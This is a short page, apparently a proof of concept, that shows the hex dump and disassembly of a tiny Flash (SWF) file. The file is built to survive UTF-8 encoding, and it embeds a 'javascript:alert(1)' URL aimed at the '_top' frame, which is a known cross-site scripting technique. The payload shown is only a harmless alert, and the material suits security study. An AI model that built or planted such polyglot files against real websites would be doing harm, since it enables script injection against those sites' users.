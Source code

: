 http://steike.com/code/useless/swf/utf8.hex
---

### utf8 hex

```
0000000: 4657 530a 1902 0000 2018 1800 0c01 003f  FWS..... ......?
0000010: 0300 0200 00c2 8000 2d2d 2d2d 2d2d 2d2d  ........--------
0000020: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000030: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000040: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000050: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000060: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000070: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000080: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000090: 2d2d 2d2d 2d2d 2dc2 9667 0000 6a61 7661  -------..g..java
00000a0: 7363 7269 7074 3a61 6c65 7274 2831 293b  script:alert(1);
00000b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000c0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000d0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000e0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000f0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
0000100: 2f00 c280 002d 2d2d 2d2d 2d2d 2d2d 2d2d  /....-----------
0000110: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000120: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000130: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000140: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000150: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000160: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000170: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000180: 2d2d 2d2d c296 0600 005f 746f 7000 c280  ----....._top...
0000190: 002d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  .---------------
00001a0: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
00001b0: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
00001c0: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
00001d0: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
00001e0: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
00001f0: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000200: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
0000210: c29a 0100 0040 0000 00                   .....@...
```

### utf8 diassembly
<http://steike.com/code/useless/swf/utf8.txt>

```
movie 'utf8.swf' // flash 10, total frames: 1, frame rate: 12 fps, 0.15x0.15 px

  frame 0
    swfAction 0xc2 hexdata 0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0x2D,0xC2 // unknown action
    push 'javascript:alert(1);/////////////////////////////////////////////////////////////////////////////////'
```